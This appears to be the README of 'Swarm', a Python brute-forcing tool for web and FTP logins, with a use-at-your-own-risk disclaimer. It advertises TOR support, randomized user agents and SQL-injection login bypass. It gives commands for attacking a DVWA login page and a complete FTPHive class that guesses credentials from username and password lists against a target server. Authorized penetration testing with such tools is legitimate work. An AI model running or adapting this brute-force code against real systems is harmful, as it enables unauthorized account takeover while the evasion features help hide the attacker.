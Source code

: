 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
###Usage

####For all options
```shell
./swarm --help
``` 
####Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)


        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success


        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'		# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'		# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'		# the password file to use
ftp_bruteforce.verbose = True				# verbose output
ftp_bruteforce.setup()					# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)			# starts the bruteforcing task
```

##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
```
